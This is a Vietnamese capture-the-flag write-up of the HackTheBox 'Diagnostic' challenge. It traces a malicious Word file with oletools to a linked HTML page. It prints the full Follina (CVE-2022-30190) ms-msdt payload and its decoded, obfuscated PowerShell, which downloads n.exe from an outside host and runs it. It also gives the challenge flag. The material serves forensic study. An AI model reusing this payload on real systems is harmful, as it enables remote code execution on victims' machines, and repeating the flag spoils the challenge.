





# Challenge Diagnostic

## 1. Đầu vào challenge

Đầu vào challenge cung cấp file `layoffs.doc`. Sử dụng `olevba` để phân tích file:

```bash
python3 -m oletools.olevba layoffs.doc
```




## Kiến thức ngoài lề

### `olevba`

`olevba` là tool dành riêng cho nhánh **macro analysis**. Nó dùng để:

- phát hiện VBA macros
- trích source code macro ra dạng rõ
- nhận diện các pattern đáng ngờ như:
  - auto-exec
  - chuỗi bị obfuscate bằng hex / Base64 / `StrReverse`
  - IOC như URL, IP, tên file thực thi

### `oleid`

`oleid` là tool để cho biết các dấu hiệu quan trọng như:

- file là dạng gì
- có bị mã hóa không
- có VBA macro không
- có object nhúng không
- có external relationship không

### `oleobj`

`oleobj` đi theo hướng **object / OLE embedding**, tức lấy ra các object nhúng hoặc các thành phần OLE liên quan trong tài liệu.

### OLE là gì?

**OLE** là viết tắt của **Object Linking and Embedding**. Đây là cơ chế của Microsoft Office cho phép một tài liệu chứa hoặc tham chiếu tới một đối tượng khác.

Với file Office dạng **OpenXML** (`.docx`, `.xlsx`, `.pptx`), bên trong có rất nhiều file XML mô tả **relationship** giữa các thành phần.

Ví dụ:

- document chính trỏ tới ảnh
- document trỏ tới style
- document trỏ tới settings
- document trỏ tới object khác

Nếu relationship đó trỏ tới tài nguyên bên ngoài file, ví dụ:

- URL `http://...`
- `https://...`
- đường dẫn mạng
- tài nguyên external khác

thì đó gọi là **External Relationship**.

---

## 2. Dùng `oleid` để nhận diện nhanh

Do `olevba` không trích được VBA macro, mình thử chuyển sang dùng `oleid` để nhận diện nhanh các dấu hiệu đáng ngờ trong file:

```bash
python3 -m oletools.oleid layoffs.doc
```



Kết quả cho thấy:

- File thực chất là **MS Word 2007+ Document (`.docx`)**
- Container format là **OpenXML**
- File **không bị mã hóa**
- **Không có VBA Macros**
- **Không có XLM Macros**
- Nhưng có **1 External Relationship** và được đánh dấu mức **HIGH**

Vì vậy dùng `oleobj` để xem chi tiết external relationship mà `oleid` vừa phát hiện.

---

## 3. Dùng `oleobj` để xem External Relationship

```bash
python3 -m oletools.oleobj layoffs.doc
```



Kết quả cho thấy `layoffs.doc` có một **OLE object dạng liên kết**, nó không nhúng thẳng trong file mà nó trỏ tới 1 URL.

Giờ tải file HTML đó về:

```bash
curl --resolve diagnostic.htb:<PORT>:<IP> \
http://diagnostic.htb:30248/223_index_style_fancy.html \
-o test.html
```

Sau khi tải thử, đọc file để hiểu hơn về payload đang tấn công.

---

## 4. Nội dung HTML payload

```html
<script>location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \\"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'JHtmYGlsZX0gPSAoIns3fXsxfXs2fXs4fXs1fXszfXsyfXs0fXswfSItZid9LmV4ZScsJ0J7bXNEdF80c19BX3ByMCcsJ0UnLCdyLi4ucycsJzNNc19iNEQnLCdsMycsJ3RvQycsJ0hUJywnMGxfaDRuRCcpCiYoInsxfXsyfXswfXszfSItZid1ZXMnLCdJbnZva2UnLCctV2ViUmVxJywndCcpICgiezJ9ezh9ezB9ezR9ezZ9ezV9ezN9ezF9ezd9Ii1mICc6Ly9hdScsJy5odGIvMicsJ2gnLCdpYycsJ3RvJywnYWdub3N0JywnbWF0aW9uLmRpJywnL24uZXhlJywndHRwcycpIC1PdXRGaWxlICJDOlxXaW5kb3dzXFRhc2tzXCRmaWxlIgomKCgoIns1fXs2fXsyfXs4fXswfXszfXs3fXs0fXsxfSIgLWYnTDlGVGFza3NMOUYnLCdpbGUnLCdvdycsJ0wnLCdmJywnQzonLCdMOUZMOUZXaW5kJywnOUZrekgnLCdzTDlGJykpICAtQ1JlcGxBY2Una3pIJyxbY2hBcl0zNiAtQ1JlcGxBY2UoW2NoQXJdNzYrW2NoQXJdNTcrW2NoQXJdNzApLFtjaEFyXTkyKQo='+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\\""; //Tm93IGZvciBhIGNoZWVyIHRoZXkgYXJlIGhlcmUsCnRyaXVtcGhhbnQhCkhlcmUgdGhleSBjb21lIHdpdGggYmFubmVycyBmbHlpbmcsCkluIHN0YWx3YXJ0IHN0ZXAgdGhleSdyZSBuaWdoaW5nLApXaXRoIHNob3V0cyBvZiB2aWN0J3J5IGNyeWluZywKV2UgaHVycmFoLCBodXJyYWgsIHdlIGdyZWV0IHlvdSBub3csCkhhaWwhCgpGYXIgd2UgdGhlaXIgcHJhaXNlcyBzaW5nCkZvciB0aGUgZ2xvcnkgYW5kIGZhbWUgdGhleSd2ZSBicm8ndCB1cwpMb3VkIGxldCB0aGUgYmVsbHMgdGhlbSByaW5nCkZvciBoZXJlIHRoZXkgY29tZSB3aXRoIGJhbm5lcnMgZmx 5aW5nCkZhciB3ZSB0aGVpciBwcmFpc2VzIHRlbGwKRm9yIHRoZSBnbG9yeSBhbmQgZmFtZSB0aGV5J3ZlIGJybyd0IHVzCkxvdWQgbGV0IHRoZSBiZWxscyB0aGVtIHJpbmcKRm9yIGhlcmUgdGhleSBjb21lIHdpdGggYmFubmVycyBmbHlpbmcKSGVyZSB0aGV5IGNvbWUsIEh1cnJhaCEKCkhhaWwhIHRvIHRoZSB2aWN0b3JzIHZhbGlhbnQKSGFpbCEgdG8gdGhlIGNvbnF1J3JpbmcgaGVyb2VzCkhhaWwhIEhhaWwhIHRvIE1pY2hpZ2FuCnRoZSBsZWFkZXJzIGFuZCBiZXN0CkhhaWwhIHRvIHRoZSB2aWN0b3JzIHZhbGlhbnQKSGFpbCEgdG8gdGhlIGNvbnF1J3JpbmcgaGVyb2VzCkhhaWwhIEhhaWwhIHRvIE1pY2hpZ2FuLAp0aGUgY2hhbXBpb25zIG9mIHRoZSBXZXN0IQoKV2UgY2hlZXIgdGhlbSBhZ2FpbgpXZSBjaGVlciBhbmQgY2hlZXIgYWdhaW4KRm9yIE1pY2hpZ2FuLCB3ZSBjaGVlciBmb3IgTWljaGlnYW4KV2UgY2hlZXIgd2l0aCBtaWdodCBhbmQgbWFpbgpXZSBjaGVlciwgY2hlZXIsIGNoZWVyCldpdGggbWlnaHQgYW5kIG1haW4gd2UgY2hlZXIhCgoKSGFpbCEgdG8gdGhlIHZpY3RvcnMgdmFsaWFudApIYWlsISB0byB0aGUgY29ucXUncmluZyBoZXJvZXMKSGFpbCEgSGFpbCEgdG8gTWljaGlnYW4sCnRoZSBjaGFtcGlvbnMgb2YgdGhlIFdlc3Qh Ck5vdyBmb3IgYSBjaGVlciB0aGV5IGFyZSBoZXJlLAp0cml1bXBoYW50IQpIZXJlIHRoZXkgY29tZSB3aXRoIGJhbm5lcnMgZmx5aW5nLApJbiBzdGFsd2FydCBzdGVwIHRoZXkncmUgbmlnaGluZywKV2l0aCBzaG91dHMgb2YgdmljdCdyeSBjcnlpbmcsCldlIGh1cnJhaCwgaHVycmFoLCB3ZSBncmVldCB5b3Ugbm93LApIYWlsIQoKRmFyIHdlIHRoZWlyIHByYWlzZXMgc2luZwpGb3IgdGhlIGdsb3J5IGFuZCBmYW1lIHRoZXkndmUgYnJvJ3QgdXMKTG91ZCBsZXQgdGhlIGJlbGxzIHRoZW0gcmluZwpGb3IgaGVyZSB0aGV5IGNvbWUgd2l0aCBiYW5uZXJzIGZseWluZwpGYXIgd2UgdGhlaXIgcHJhaXNlcyB0ZWxsCkZvciB0aGUgZ2xvcnkgYW5kIGZhbWUgdGhleSd2ZSBicm8ndCB1cwpMb3VkIGxldCB0aGUgYmVsbHMgdGhlbSByaW5nCkZvciBoZXJlIHRoZXkgY29tZSB3aXRoIGJhbm5lcnMgZmx5aW5nCkhlcmUgdGhleSBjb21lLCBIdXJyYWghCgpIYWlsISB0byB0aGUgdmljdG9ycyB2YWxpYW50CkhhaWwhIHRvIHRoZSBjb25xdSdyaW5nIGhlcm9lcwpIYWlsISBIYWlsISB0byBNaWNoaWdhbgp0aGUgbGVhZGVycyBhbmQgYmVzdApIYWlsISB0byB0aGUgdmljdG9ycyB2YWxpYW50CkhhaWwhIHRvIHRoZSBjb25xdSdyaW5nIGhlcm9lcwpIYWlsISBIYWlsISB0byBNaWNoaWdhbiwKdGhlIGNoYW1waW9ucyBvZiB0aGUgV2VzdCEKCldlIGNoZWVyIHRoZW0gYWdhaW4KV2UgY2hlZXIgYW5kIGNoZWVyIGFnYWluCkZvciBNaWNoaWdhbiwgd2UgY2hlZXIgZm9yIE1pY2hpZ2FuCldlIGNoZWVyIHdpdGggbWlnaHQgYW5kIG1haW4KV2UgY2hlZXIsIGNoZWVyLCBjaGVlcgpXaXRoIG1pZ2h0IGFuZCBtYWluIHdlIGNoZWVyIQoKCkhhaWwhIHRvIHRoZSB2aWN0b3JzIHZhbGlhbnQKSGFpbCEgdG8gdGhlIGNvbnF1J3JpbmcgaGVyb2VzCkhhaWwhIEhhaWwhIHRvIE1pY2hpZ2FuLAp0aGUgY2hhbXBpb25zIG9mIHRoZSBXZXN0IQ== CgpOb3cgZm9yIGEgY2hlZXIgdGhleSBhcmUgaGVyZSwKdHJpdW1waGFudCEKSGVyZSB0aGV5IGNvbWUgd2l0aCBiYW5uZXJzIGZseWluZywKSW4gc3RhbHdhcnQgc3RlcCB0aGV5J3JlIG5pZ2hpbmcsCldpdGggc2hvdXRzIG9mIHZpY3QncnkgY3J5aW5nLApXZSBodXJyYWgsIGh1cnJhaCwgd2UgZ3JlZXQgeW91IG5vdywKSGFpbCEKCkZhciB3ZSB0aGVpciBwcmFpc2VzIHNpbmcKRm9yIHRoZSBnbG9yeSBhbmQgZmFtZSB0aGV5J3ZlIGJybyd0IHVzCkxvdWQgbGV0IHRoZSBiZWxscyB0aGVtIHJpbmcKRm9yIGhlcmUgdGhleSBjb21lIHdpdGggYmFubmVycyB mbHlpbmcKRmFyIHdlIHRoZWlyIHByYWlzZXMgdGVsbApGb3IgdGhlIGdsb3J5IGFuZCBmYW1lIHRoZXkndmUgYnJvJ3QgdXMKTG91ZCBsZXQgdGhlIGJlbGxzIHRoZW0gcmluZwpGb3IgaGVyZSB0aGV5IGNvbWUgd2l0aCBiYW5uZXJzIGZseWluZwpIZXJlIHRoZXkgY29tZSwgSHVycmFoIQoKSGFpbCEgdG8gdGhlIHZpY3RvcnMgdmFsaWFudApIYWlsISB0byB0aGUgY29ucXUncmluZyBoZXJvZXMKSGFpbCEgSGFpbCEgdG8gTWljaGlnYW4KdGhlIGxlYWRlcnMgYW5kIGJlc3QKSGFpbCEgdG8gdGhlIHZpY3RvcnMgdmFsaWFudApIYWlsISB0byB0aGUgY29ucXUncmluZyBoZXJvZXMKSGFpbCEgSGFpbCEgdG8gTWljaGlnYW4sCnRoZSBjaGFtcGlvbnMgb2YgdGhlIFdlc3QhCgpXZSBjaGVlciB0aGVtIGFnYWluCldlIGNoZWVyIGFuZCBjaGVlciBhZ2FpbgpGb3IgTWljaGlnYW4sIHdlIGNoZWVyIGZvciBNaWNoaWdhbgpXZSBjaGVlciB3aXRoIG1pZ2h0IGFuZCBtYWluCldlIGNoZWVyLCBjaGVlciwgY2hlZXIKV2l0aCBtaWdodCBhbmQgbWFpbiB3ZSBjaGVlciEKCgpIYWlsISB0byB0aGUgdmljdG9ycyB2YWxpYW50CkhhaWwhIHRvIHRoZSBjb25xdSdyaW5nIGhlcm9lcwpIYWlsISBIYWlsISB0byBNaWNoaWdhbiwKdGhlIGNoYW1waW9ucyBvZiB0aGUgV2VzdCE= SGFyayB0aGUgc291bmQgb2YgVGFyIEhlZWwgdm9pY2VzClJpbmdpbmcgY2xlYXIgYW5kIFRydWUKU2luZ2luZyBDYXJvbGluYSdzIHByYWlzZXMKU2hvdXRpbmcgTi5DLlUuCgpIYWlsIHRvIHRoZSBicmlnaHRlc3QgU3RhciBvZiBhbGwKQ2xlYXIgaXRzIHJhZGlhbmNlIHNoaW5lCkNhcm9saW5hIHByaWNlbGVzcyBnZW0sClJlY2VpdmUgYWxsIHByYWlzZXMgdGhpbmUuCgpOZWF0aCB0aGUgb2FrcyB0aHkgc29ucyBhbmQgZGF1Z2h0ZXJzCkhvbWFnZSBwYXkgdG8gdGhlZQpUaW1lIHdvcm4gd2FsbHMgZ2l2ZSBiYWNrIHRoZWlyIGVjaG8KSGFpbCB0byBVLk4uQy4KClRob3VnaCB0aGUgc3Rvcm1zIG9mIGxpZmUgYXNzYWlsIHVzClN0aWxsIG91ciBoZWFydHMgYmVhdCB0cnVlCk5hdWdodCBjYW4gYnJlYWsgdGhlIGZyaWVuZHNoaXBzIGZvcm1lZCBhdApEZWFyIG9sZCBOLkMuVS4= CkhhcmsgdGhlIHNvdW5kIG9mIFRhciBIZWVsIHZvaWNlcwpSaW5naW5nIGNsZWFyIGFuZCBUcnVlClNpbmdpbmcgQ2Fyb2xpbmEncyBwcmFpc2VzClNob3V0aW5nIE4uQy5VLgoKSGFpbCB0byB0aGUgYnJpZ2h0ZXN0IFN0YXIgb2YgYWxsCkNsZWFyIGl0cyByYWRpYW5jZSBzaGluZQpDYXJvbGluYSBwcmljZWxlc3MgZ2VtLApSZWNlaXZlIGFsbCBwcmFpc2VzIHRoaW5lLgoKTmVhdGggdGhlIG9ha3MgdGh5IHNvbnMgYW5kIGRhdWdodGVycwpIb21hZ2UgcGF5IHRvIHRoZWUKVGltZSB3b3JuIHdhbGxzIGdpdmUgYmFjayB0aGVpciBlY2hvCkhhaWwgdG8gVS5OLkMuCgpUaG91Z2ggdGhlIHN0b3JtcyBvZiBsaWZlIGFzc2FpbCB1cwpTdGlsbCBvdXIgaGVhcnRzIGJlYXQgdHJ1ZQpOYXVnaHQgY2FuIGJyZWFrIHRoZSBmcmllbmRzaGlwcyBmb3JtZWQgYXQKRGVhciBvbGQgTi5DLlUu
</script>
```

Đây là đoạn script quan trọng nhất trong file HTML tải về.  
Có thể thấy payload đang gọi:

```text
ms-msdt:/id PCWDiagnostic /skip force /param ...
```

và bên trong tham số `IT_BrowseForFile` còn nhúng thêm một lớp PowerShell obfuscate khác.

---

## 5. Giải thích CVE-2022-30190

Sau khi tra cứu thêm thì biết được, đây là **CVE-2022-30190**.

### Kiến thức ngoài lề

Đây là **CVE-2022-30190 (Follina)**, một lỗ hổng **Remote Code Execution** trong **Microsoft Support Diagnostic Tool (MSDT)**.

Công cụ bị lạm dụng ở đây là **MSDT**, vốn là công cụ chẩn đoán của Windows, có thể được gọi bằng giao thức **`ms-msdt:`** và nhận các tham số như `/id` hoặc `/param` để chạy một gói troubleshooter tương ứng.

Cách hoạt động của lỗi này là attacker không cần macro VBA, mà chỉ cần khiến một ứng dụng như **Word** hoặc một trang **HTML** gọi `ms-msdt:` với **tham số do attacker kiểm soát**. Khi MSDT bị gọi qua URL protocol từ Word, attacker có thể lợi dụng cách công cụ này xử lý tham số để dẫn tới **thực thi mã tùy ý** với quyền của ứng dụng / người dùng đang mở file.

Ngay trong bài này có thể thấy rõ chain đó. File HTML chứa chuỗi:

```text
ms-msdt:/id PCWDiagnostic /skip force /param "IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=..."
```

Tức là sample đang trực tiếp gọi **MSDT** qua giao thức `ms-msdt`, chọn gói chẩn đoán **`PCWDiagnostic`**, rồi truyền vào các tham số như `IT_RebrowseForFile`, `IT_LaunchMethod`, `IT_BrowseForFile`.

Điểm nguy hiểm nằm ở chỗ giá trị của các tham số này không còn là dữ liệu chẩn đoán bình thường, mà đã bị attacker nhúng biểu thức / chuỗi lệnh obfuscate để dẫn tới tải và chạy payload tiếp theo.

Flow cơ chế:

**Word/HTML độc hại → gọi `ms-msdt:` → MSDT chạy `PCWDiagnostic` → MSDT xử lý tham số độc hại → tải / chạy payload**

---

## 6. Decode rồi Deobfuscate bằng PowerShell

Từ đoạn script kia, decode đoạn Base64 đầu tiên ra được phần lớn flag.



Kết quả decode ra là:

```powershell
${f`ile} = ("{7}{1}{6}{8}{5}{3}{2}{4}{0}"-f'}.exe','B{msDt_4s_A_pr0','E','r...s','3Ms_b4D','l3','toC','HT','0l_h4nD')
&("{1}{2}{0}{3}"-f'ues','Invoke','-WebReq','t') ("{2}{8}{0}{4}{6}{5}{3}{1}{7}"-f '://au','.htb/2','h','ic','to','agnost','mation.di','/n.exe','ttps') -OutFile "C:\Windows\Tasks\$file"
&((("{5}{6}{2}{8}{0}{3}{7}{4}{1}" -f'L9FTasksL9F','ile','ow','L','f','C:','L9FL9FWind','9FkzH','sL9F'))  -CReplAce'kzH',[chAr]36 -CReplAce([chAr]76+[chAr]57+[chAr]70),[chAr]92)

```

Tiếp tục deobfuscate đoạn này bằng PowerShell:



Từ đây ra được flag là:

```text
HTB{msDt_4s_A_pr0toC0l_h4nDl3r...sE3Ms_b4D}
```

---

## 9. Flow phân tích

```text
layoffs.doc
   |
   v
dùng `olevba` để thử trích macro
   |
   v
không thấy VBA macro rõ ràng
   |
   v
chuyển sang dùng `oleid`
   |
   v
phát hiện file thực chất là `.docx`, không có macro
nhưng có 1 External Relationship mức HIGH
   |
   v
dùng `oleobj` để xem chi tiết external relationship
   |
   v
thấy tài liệu trỏ tới 1 URL HTML bên ngoài
   |
   v
tải file HTML về bằng `curl`
   |
   v
đọc nội dung HTML
   |
   v
phát hiện chuỗi `ms-msdt:` gọi `PCWDiagnostic`
   |
   v
xác định đây là chain khai thác Follina (CVE-2022-30190)
   |
   v
bóc lớp PowerShell obfuscate trong tham số `IT_BrowseForFile`
   |
   v
decode Base64 đầu tiên
   |
   v
thu được script PowerShell dựng tên file và tải payload
   |
   v
deobfuscate tiếp bằng PowerShell
   |
   v
thu được flag cuối
```
---